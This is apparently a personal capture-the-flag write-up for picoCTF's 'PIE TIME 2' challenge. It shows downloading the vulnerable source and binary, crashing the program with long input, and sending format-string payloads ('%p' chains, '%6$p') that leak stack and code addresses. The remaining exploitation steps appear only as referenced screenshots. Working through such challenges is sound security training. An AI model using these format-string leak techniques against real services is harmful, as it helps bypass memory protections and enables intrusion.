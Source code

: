 # PIE TIME 2

Can you try to get the flag? I'm not revealing anything anymore!!
Additional details will be available after launching your challenge instance.

```md
Connect to the program with netcat:
$ nc rescued-float.picoctf.net 57266
The program's source code can be downloaded [here](https://challenge-files.picoctf.net/c_rescued_float/a46e1331e4c897a4bed0f61714f2897d3aeba658ca3cc54e39f213bff453b495/vuln.c). The binary can be downloaded [here](https://challenge-files.picoctf.net/c_rescued_float/a46e1331e4c897a4bed0f61714f2897d3aeba658ca3cc54e39f213bff453b495/vuln).
```

## Solution

```sh
curl https://challenge-files.picoctf.net/c_rescued_float/a46e1331e4c897a4bed0f61714f2897d3aeba658ca3cc54e39f213bff453b495/vuln.c -O
curl https://challenge-files.picoctf.net/c_rescued_float/a46e1331e4c897a4bed0f61714f2897d3aeba658ca3cc54e39f213bff453b495/vuln -O
➜  PIE TIME 2 git:(main) ✗ nc rescued-float.picoctf.net 57266
# Enter your name:sssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss
# sssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss enter the address to jump to, ex => 0x12345: Segfault Occurred, incorrect address.
➜  PIE TIME 2 git:(main) ✗ nc rescued-float.picoctf.net 57266                                                                                               
# Enter your name:sssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss  
# sssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss enter the address to jump to, ex => 0x12345: sssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss
# Segfault Occurred, incorrect address.
> %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
> %6$p
> 0x61ac6a7f32a1.(nil).0x61ac6a7f32d9.0x7ffdd9d61130.0x7c.0x750e90e49238.0x750e90e3b6a0.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x7ffdd9d6000a.0x61ac588d81c0.0xd4433dc2e7807400.0x7ffdd9d61190.0x61ac588d8441
```

![gdb stack trace](image.png)
![stack frame pointer addr](image-1.png)
![python addr](image-2.png)
![win method](image-3.png)
